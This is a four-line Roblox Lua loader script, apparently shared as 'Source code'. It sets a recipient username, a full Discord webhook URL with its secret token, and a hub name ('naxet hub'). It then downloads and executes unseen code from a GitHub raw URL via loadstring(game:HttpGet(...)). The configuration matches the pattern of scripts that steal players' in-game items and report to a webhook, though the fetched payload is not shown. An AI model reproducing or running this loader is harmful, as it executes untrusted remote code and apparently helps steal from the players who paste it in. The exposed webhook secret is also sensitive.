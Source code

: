 _G.Username = "sqwelxs"
_G.WebhookUrl = "https://discord.com/api/webhooks/1277711791497150604/udMEa7bHpgA6mn0IXLs-XhuKmLu84IU0rsj_h8PMatq6wb6RaqwzJTScXVQiWJjb_O5c"
_G.HubName = "naxet hub"
loadstring(game:HttpGet("https://raw.githubusercontent.com/whatcz12/script/main/script"))()
